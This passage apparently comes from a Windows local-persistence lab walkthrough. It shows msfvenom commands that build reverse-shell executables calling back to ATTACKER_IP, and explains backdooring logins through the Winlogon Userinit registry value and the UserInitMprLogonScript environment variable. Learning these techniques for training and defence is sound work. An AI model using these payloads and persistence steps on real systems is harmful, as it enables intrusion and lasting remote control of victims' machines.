 Let's start by creating a shell:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`.

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

![image](/img/WindowsLocalPersistence/12.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

### 5.4 Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. **The variable isn't set by default**, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`.

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![image](/img/WindowsLocalPersistence/13.png)
